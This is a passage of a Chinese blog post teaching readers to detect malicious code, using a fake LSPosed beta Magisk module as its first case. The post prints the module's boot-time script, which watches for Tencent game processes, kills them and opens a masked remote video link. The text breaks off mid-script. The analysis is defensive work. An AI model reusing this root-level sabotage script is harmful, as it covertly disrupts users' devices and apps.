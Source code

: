 ```yaml
---
title: 通过两个经典案例教你揪出恶意代码
date: 2025-02-04 20:47:03
tags:
- Android搞机
- 技术帖
- Shell
categories:
- Android
id: post20
cover: https://maxpcimg.online/i/2025/02/04/67a212dac47d1.jpg
banner_img: https://maxpcimg.online/i/2025/02/04/67a212dac47d1.jpg
index_img: https://maxpcimg.online/i/2025/02/04/67a212dac47d1.jpg
---
```


# 通过两个经典案例教你揪出恶意代码

近期，一系列令人咋舌的玄幻事件频发，诸如知名项目 LSPosed 的内测版被不法分子植入恶意代码并外泄、某款脚本加密工具被植入“远控”与“监控”程序、某站员工利用恶意代码对用户进行报复等。

对于类似后者这样的行为，我们或许难以防范，但针对前两类事件，我们其实可以采取一些措施进行鉴别。本文将围绕这两个典型案例，为大家传授几招实用的技巧。相信读完本文后，你也将拥有一双赛博世界的火眼金睛！

---

## I、LSPosed“内测版”事件

相信大家对 LSPosed 都不陌生，其在安卓玩机圈有着举足轻重的地位，虽然其正式版已经停更，但是民间制作的版本依然层出不穷。LSPosed 最近在社交平台上开启了内测版的招募和发版，由于严格的筛选手段，很多普通爱好者是没有办法参与的，这也是 LSPosed 专业精神的体现，但不免有一些人为了体验“正统续作”想尽偏方，给不法分子留下了可乘之机。

### 一、事件简述

2024 年 12 月，一个号称“LSPosed 内测泄露版本”被在 QQ 群、酷安社区等地传播，但其实际上是包含了恶意代码的修改版本，中招用户不计其数。

不久后，LSPosed 内测群发布公告说明：

<img src="https://maxpcimg.online/i/2025/02/04/67a212dac47d1.jpg" style="zoom: 33%;" />

### 二、恶意代码分析

Magisk 模块是拥有 Root 权限（最高权限）的，它几乎可以在你的手机系统上任何事情，我拿到了此次事件的病毒模块样本进行分析。

此次事件的恶意代码大多位于模块的 `customize.sh` 中。

#### **1. 脚本概述**

恶意代码被放置在 `/data/adb/service.d/`，这意味着它会在系统启动时自动运行，具备较高的系统权限。脚本主要监控特定的腾讯游戏应用（腾讯怎么你了），并在检测到其运行后执行一系列恶意操作，包括强制结束进程、访问可疑网络链接以及重启设备。

#### **2. 脚本内容**

```bash
packages="com.tencent.tmgp.sgame com.tencent.tmgp.pubgmhd com.tencent.mf.suam com.tencent.tmgp.cod com.tencent.tmgp.cf"
start_sleep=$((RANDOM % 61 + 120))
sleep $start_sleep
while true
do
	for package in $packages; do
		pid=$(pidof "$package")
		if [ -n "$pid" ]; then
			wait_time=$((RANDOM % 301 + 600))
			sleep $wait_time
			kill -9 $pid
			am start -p com.miui.video -d "https://********.icu/d/local/999.mp4"-t video/mp4
			sleep 60
```